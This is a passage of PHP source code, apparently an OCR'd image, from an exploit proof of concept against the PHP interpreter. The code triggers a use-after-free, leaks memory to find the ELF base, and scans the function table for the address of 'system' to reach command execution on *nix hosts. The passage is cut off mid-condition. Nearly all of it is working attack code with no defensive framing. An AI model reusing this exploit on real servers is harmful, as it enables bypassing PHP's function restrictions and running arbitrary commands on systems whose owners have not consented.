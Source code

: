 ```php
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {
        # str_shuffle prevents opcache string interning
        $arg = str_shuffle(str_repeat('A', 79));
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if UAF fails
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle(str_repeat('A', 79));

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
```
